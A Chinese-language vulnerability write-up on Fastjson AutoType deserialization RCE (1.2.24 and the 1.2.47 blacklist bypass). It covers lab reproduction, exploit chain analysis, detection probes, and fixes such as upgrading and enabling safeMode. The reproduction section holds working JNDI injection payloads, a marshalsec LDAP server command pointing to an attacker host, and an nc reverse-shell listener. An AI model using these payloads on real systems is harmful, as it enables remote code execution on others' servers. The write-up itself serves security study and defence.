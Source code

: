 
## 目录
1. [漏洞概述](#漏洞概述)
2. [影响版本](#影响版本)
3. [漏洞复现](#漏洞复现)
4. [漏洞原理](#漏洞原理)
5. [漏洞挖掘思路](#漏洞挖掘思路)
6. [修复方案](#修复方案)
7. [法律声明](#法律声明)

---

## 漏洞概述
Fastjson是阿里巴巴开源的高性能JSON处理库，其反序列化机制中存在的AutoType功能可被恶意利用，导致远程代码执行（RCE）。

### 核心漏洞
| **漏洞编号**       | **影响版本**   | **利用方式**                     | **关键类**                   |
|--------------------|----------------|--------------------------------|-----------------------------|
| CNVD-2017-02833    | ≤1.2.24        | JdbcRowSetImpl JNDI注入         | `com.sun.rowset.JdbcRowSetImpl` |
| CNVD-2019-22238    | ≤1.2.47        | 绕过AutoType黑名单              | `java.lang.Class`           |

---

## 影响版本
- **高危版本**：1.2.24、1.2.47  
- **安全版本**：≥1.2.68（需启用`safeMode`）  
- **JDK限制**：  
  - JDK 6u191/7u201/8u191+：禁用远程类加载  
  - JDK 11.0.1+：默认安全配置增强  

---

## 漏洞复现

### 环境搭建
```bash
# 使用vulhub靶场
cd /vulhub/fastjson/1.2.24-rce
docker-compose up -d

# Kali工具准备
python3 -m http.server 8089  # 托管恶意类
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://攻击机IP:8089/#Exploit" 9473
nc -lvp 9001  # 监听反弹Shell
```

### 攻击流程
8. **构造恶意Payload**  
   ```json
   // 1.2.24版本
   {
     "b": {
       "@type": "com.sun.rowset.JdbcRowSetImpl",
       "dataSourceName": "ldap://攻击机IP:9473/Exploit",
       "autoCommit": true
     }
   }

   // 1.2.47版本（绕过黑名单）
   {
     "a": { "@type": "java.lang.Class", "val": "com.sun.rowset.JdbcRowSetImpl" },
     "b": { "@type": "com.sun.rowset.JdbcRowSetImpl", "dataSourceName": "ldap://攻击机IP:9473/Exploit", "autoCommit": true }
   }
   ```

9. **发送请求**  
   ```http
   POST / HTTP/1.1
   Host: 目标IP:8090
   Content-Type: application/json

   {恶意Payload}
   ```

10. **触发流程**  
   ```mermaid
   graph LR
   A[Fastjson解析@type] --> B[实例化JdbcRowSetImpl]
   B --> C[调用setAutoCommit(true)]
   C --> D[触发JNDI lookup]
   D --> E[加载远程恶意类]
   E --> F[执行系统命令]
   ```

---

## 漏洞原理

### AutoType机制
- **功能**：通过`@type`指定反序列化目标类，支持多态特性。  
- **漏洞点**：未严格校验类名，允许加载危险类（如`JdbcRowSetImpl`）。  

### 利用链分析
11. **JdbcRowSetImpl**  
   - `setDataSourceName()`：设置恶意LDAP/RMI地址  
   - `setAutoCommit()` → `connect()` → `lookup()`：触发JNDI注入  

12. **黑名单绕过（1.2.47）**  
   - 利用`java.lang.Class`缓存类名绕过检测  
   - 二次反序列化加载已被缓存的危险类  

---

## 漏洞挖掘思路

### 检测Fastjson使用
13. **非法格式探测**  
   ```json
   {"x":"  # 返回fastjson特有错误信息
   ```

14. **DNSLog外连**  
   ```json
   {"x":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}
   ```

15. **自动化工具**  
   - Burp插件：[fastjsonScan](https://github.com/zilong3033/fastjsonScan)

---

## 修复方案

### 代码层修复
16. **升级Fastjson**  
   ```xml
   <dependency>
     <groupId>com.alibaba</groupId>
     <artifactId>fastjson</artifactId>
     <version>1.2.83</version>
   </dependency>
   ```

17. **启用安全模式**  
   ```java
   ParserConfig.getGlobalInstance().setSafeMode(true);  // 完全禁用AutoType
   ```

### 基础设施加固
- **JDK升级**：≥8u191/11.0.1  
- **WAF规则**：拦截包含`@type`和JNDI协议的请求  

---

## 法律声明
> **《中华人民共和国网络安全法》第二十七条**  
> 任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序、工具；明知他人从事危害网络安全的活动的，不得为其提供技术支持、广告推广、支付结算等帮助。  
> **本文档内容仅用于安全研究与防御技术学习，严禁用于非法用途！**
```